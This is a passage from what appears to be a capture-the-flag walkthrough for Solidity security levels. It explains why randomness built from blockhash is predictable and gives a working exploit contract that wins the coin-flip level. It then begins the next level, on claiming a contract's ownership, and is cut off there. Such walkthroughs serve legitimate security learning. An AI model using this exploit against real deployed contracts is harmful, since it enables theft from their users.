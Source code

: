 ```solidity
      return false;
    }
  }
}
```
Using blockhash and block number for generating random value is considered insecure in solidity, as these values can be calculated as the blockhash will be same for the transactions included in the same block.

> #### Solution:
> We will calculate the `side` with our exploit contract and call the `flip(bool _guess)` function of the contract to win the game. We have to do this 10 times in order to complete this level.
> 
> - We will initialize our exploit contract with the instance of our contract.
> - Then we will call the `calculateFlip()` function 10 times to win the game.
> 
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface game {
>   function flip(bool _guess) external returns (bool);
> }
> 
> contract exp {
>   uint256 lastHash;
>   uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
>   game cF;
> 
>   constructor(address instance){
>     cF = game(instance);
>   }
> 
>   function calculateFlip() public {
>     uint256 blockValue = uint256(blockhash(block.number -  1 ));
>     require(lastHash != blockValue);
> 
>     lastHash = blockValue;
>     uint256 flip = blockValue / FACTOR;
>     bool guess = flip == 1 ? true : false;
> 
>     require(cF.flip(guess));
>   }
> }
> ```

<hr>

## 4 Telephone
We have to claim the ownership of this contract to finish this level.
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

```